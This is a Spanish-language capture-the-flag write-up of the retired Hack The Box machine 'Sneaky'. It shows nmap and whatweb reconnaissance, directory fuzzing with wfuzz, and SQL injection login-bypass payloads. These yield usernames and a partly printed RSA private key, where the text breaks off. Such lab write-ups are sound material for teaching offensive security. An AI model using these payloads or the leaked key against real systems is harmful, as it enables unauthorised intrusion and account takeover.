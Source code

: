 ```yaml
---
layout: post
title:  "Maquina  Retirada Sneaky de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada SNEAKY
tags: HTB, SNMP, SQLInjecction, Web Hacking, BOF, Maquinas Retiradas, Writeup
---
```


# Sneaky ~ Hack The Box
```bash
$" nmap -p- --open -sS -T5 -v -n -Pn -oG allports 10.10.10.20       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
```
Efectuamos un reconocimiento con la herramienta `whatweb` en el puerto `HTTP`:
```bash
# wtw 10.10.10.20                                                                                                            
http://10.10.10.20 [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.20], Title[Under Development!]
```
Haciendo FUZZING web:
```bash
#" wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://10.10.10.20/FUZZ    " 

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================
                                                                                 
000000810:   200        14 L     32 W       464 Ch      "dev"  
```
Encontramos un directorio, procedemos a hecharle un vistazo visual a la ruta y a la web:
vemos que es un Loguin super Cutre
Probamos con Injecciones sql Basicas
```sql
# admin' or 1=1-- -
# admin' or 1=1;-- -  	>>> Nos devuelve un user

			"	name: admin             "
			" 	name: thrasivoulos        "
```
Y una `Clave Id_rsa` (clave privada)

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvQxBD5yRBGemrZI9F0O13j15wy9Ou8Z5Um2bC0lMdV9ckyU5
Lc4V+rY81lS4cWUx/EsnPrUyECJTtVXG1vayffJISugpon49LLqABZbyQzc4GgBr
3mi0MyfiGRh/Xr4L0+SwYdylkuX72E7rLkkigSt4s/zXp5dJmL2RBZDJf1Qh6Ugb
yDxG2ER49/wbdet8BKZ9EG7krGHgta4mfqrBbZiSBG1ST61VFC+G6v6GJQjC02cn
cb+zfPcTvcP0t63kdEreQbdASYK6/e7Iih/5eBy3i8YoNJd6Wr8/qVtmB+FuxcFj
oOqS9z0+G2keBfFlQzHttLr3mh70tgSA0fMKMwIDAQABAoIBAA23XOUYFAGAz7wa
Nyp/9CsaxMHfpdPD87uCTlSETfLaJ2pZsgtbv4aAQGvAm91GXVkTztYi6W34P6CR
h6rDHXI76PjeXV73z9J1+aHuMMelswFX9Huflyt7AlGV0G/8U/lcx1tiWfUNkLdC
CphCICnFEK3mc3Mqa+GUJ3iC58vAHAVUPIX/cUcblPDdOmxvazpnP4PW1rEpW8cT
OtsoA6quuPRn9O4vxDlaCdMYXfycNg6Uso0stD55tVTHcOz5MXIHh2rRKpl4817a
I0wXr9nY7hr+ZzrN0xy5beZRqEIdaDnQG6qBJFeAOi2d7RSnSU6qH08wOPQnsmcB
JkQxeUkCgYEA3RBR/0MJErfUb0+vJgBCwhfjd0x094mfmovecplIUoiP9Aqh77iz
```